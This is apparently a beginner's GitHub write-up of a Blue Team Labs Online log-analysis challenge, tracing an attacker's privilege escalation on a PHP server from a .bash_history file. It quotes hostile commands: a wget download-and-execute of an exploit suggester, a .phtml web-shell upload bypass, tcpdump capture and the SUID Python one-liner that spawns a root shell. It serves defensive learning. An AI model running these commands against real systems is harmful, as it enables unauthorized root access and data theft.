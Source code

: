🔐 BTLO Challenge: Privilege Escalation (Log Analysis)
This repository contains my beginner-friendly walkthrough of Linux privilege escalation techniques using a virtual lab setup. I explored how to escalate from a normal user to root by exploiting misconfigurations like SUID binaries, sudo permissions, and writable system files. All steps are documented for learning and practice purposes.

This repository documents my solution and analysis of the **Privilege Escalation (Log Analysis)** challenge on [Blue Team Labs Online](https://blueteamlabs.online). In this challenge, I analyzed a `.bash_history` log to trace how an attacker gained unauthorized **root access** on a compromised PHP server.


## 🧩 Challenge Overview

A web server running PHP was compromised, and sensitive data — accessible only to `root` — was leaked. The only evidence provided was a `bash_history` log file. My task was to:

- Analyze the attacker's commands
- Identify how they **escalated privileges**
- Determine which tools and techniques were used



## 🔍 Key Findings

### 👤 1. User Discovery
- The attacker explored `/home/daniel`, revealing a second user account:
  
  ```bash
  cd /home/daniel
  ls -la



⬇️ 2. Exploitation Script Downloaded

They downloaded linux-exploit-suggester.sh, a known privilege escalation enumeration tool:

wget http://<url>/linux-exploit-suggester.sh -O /tmp/suggester.sh
chmod +x /tmp/suggester.sh
./tmp/suggester.sh


📡 3. Network Analysis Using Tcpdump

The attacker used tcpdump, suggesting they were monitoring or capturing network traffic:

tcpdump -i any -nn port 80



🐚 4. Web Shell Bypass Using .phtml

They uploaded a .phtml file — a common trick to bypass .php upload restrictions:

upload.php?file=shell.phtml

This was likely used to establish a web shell before moving to a reverse shell.



🚩 5. Privilege Escalation via SUID Python

The attacker exploited a misconfigured SUID binary — /usr/bin/python — to gain root:

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

This method is listed on GTFOBins, confirming the privilege escalation technique.




📸 Screenshots

This folder contains supporting screenshots:

linexploit-output.png

suid-python-root.png

tcpdump-use.png

final-whoami-root.png


📁 Folder: /screenshots/




📈 Summary of Attack Flow

1. Gained access via uploaded .phtml web shell

2. Performed local enumeration

3. Discovered user daniel and potential privilege escalation paths

4. Downloaded and ran Linux Exploit Suggester

5. Identified SUID-enabled Python

6. Gained root access using Python SUID GTFOBins method


🔐 Lessons Learned

Logs reveal everything — even .bash_history can expose full attack chains.

SUID misconfigurations are a major privilege escalation vector.

Tools like tcpdump can be used maliciously in post-exploitation scenarios.

Web upload bypasses using extensions like .phtml are still relevant.


📚 References

GTFOBins – Python SUID

PEASS-ng

Linux Exploit Suggester

StumbleSec BTLO Walkthrough

ERBATMAN BTLO Writeup

YouTube on BTLO




✨ Author

Rasheedah Haruna
Beginner Cybersecurity Enthusiast | Log Analyst | PrivEsc Explorer
📬 Connect with me on LinkedIn(Haruna Rasheedah)


🛡️ Educational Purpose Only — Always practice ethical hacking in legal environments.
